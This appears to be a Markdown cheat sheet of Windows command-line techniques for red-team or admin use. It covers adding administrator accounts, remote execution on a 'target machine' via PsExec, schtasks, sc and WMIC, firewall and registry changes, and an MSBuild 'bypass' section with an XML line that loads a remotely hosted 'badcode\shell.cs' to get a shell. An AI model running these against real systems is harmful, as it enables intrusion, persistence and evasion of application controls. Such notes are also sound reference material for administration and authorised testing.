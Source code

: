 #### Account Management  
```powershell
net user
net localgroup
net localgroup administrators
net user newUserName newUserPwd / add
net localgroup administrators newUserName / add
net localgroup groupName username /del
net user userName /del
```
#### Remote Command Running
**PsExec (Sysinternals)**  
`First we must transfer over or download it to the target machine.`
```powershell
psexec \\<targetMachine> -d -u <userName> -p <pwd> <commandToRun>
```
**Schedule a job**
```powershell
schtasks /create /tn <taskName> /s <targetMachine> /u <user> /p <pwd> /sc <frequency> /st <startTime> /sd <startDate> /tr <commandToRun>
#Check status
schtasks /query /s <targetMachine>
```
**Run as a service**
```powershell
sc \\<targetMachine> create <newServiceName> binpath= "cmd.exe /k <commandToRun>"
```
**Use Windows Management Instrumentation Control (WMIC)**
```powershell
wmic /node:<targetMachine> /user:<admin> /password:<pwd> process call create <executableCommand>
#for multiple targets, you can put them in a text file and pass it as /node:@hostListFile
```

#### Services
```powershell
#Determing Service Names
##List all running services
sc query
##List all services
sc query state= all
##Target a description of a service
wmic service where (displayname like "%serviceNameDescription%") get name
wmic /node:<targetMachine> /user:<admin> /password:<pwd> process list brief
#Kill pid
wmic /node:<targetMachine> /user:<admin> /password:<pwd> process where processid="PID#" delete
#Kill process by name
wmic /node:<targetMachine> /user:<admin> /password:<pwd> process where name="procName" delete

sc \\<targetMachine> query
sc qc <serviceName>
#If start_type == disabled, you must enable it prior to starting it:
sc config <serviceName> start= demand
sc start <serviceName>
sc stop <serviceName>
sc\\<targetMachine> delete <serviceName>
```
## Networking
#### SMB Sessions
```powershell
net use \\<targetMachine> <pwd> /u:<userName>
# Mount share on target
net use * \\<targetMachine>\<shareName> <pwd> /u:<domainName>\<userName>
# Drop single session
net use \\<targerMachine> /del
# Drop all sessions
net use * /del /y
```
**netsh reference**: https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts
```powershell
netsh /?
```
**Firewall**
```powershell
netsh advfirewall show allprofiles
netsh advfirewall firewall add rule "RuleName" dir=in action=allow remoteip=<yourip> protocol=TCP localport=PortNum
netsh advfirewall firewall del rule name="RuleName"
```
**Recent Comms**
```powershell
netstat -n
arp -a
ipconfig /displaydns
```  
#### Leverage MSBuild to run code  
MSBuild.exe located @ C:\Windows\Microsoft.NET\Framework64\v4.0.30319
You can use a schema XML file to get a shell. Example:
```https://gist.github.com/ChrisTruncer/ea8b29c78f54f9eb4c7b505c27ec4c72```   
```https://fortynorthsecurity.com/blog/another-msbuild-bypass-february-2020-edition/```   
**Host the code remotely**   
```https://fortynorthsecurity.com/blog/remotely-host-msbuild-payloads/```   
```XML
<Code Type="Class" Language="cs" Source="\\127.0.0.1\badcode\shell.cs">
```   
#### Registry
```powershell
reg query <keyName>  
reg add <keyName> /v <ValueName> /t <type> /d <data>
reg export <keyName> <fileNameToExportKeySettings>
reg import <inRegSettings>
#For working remotely prepend \\<MachineID> prior to <keyName>
```

#### cmd.exe
```powershell
type textFile.txt
type textFile.txt | findstr *.*
type textFile.txt | find /i "targetString"
set
set <envVar>
dir /b /s <dir>\targetFile
```  
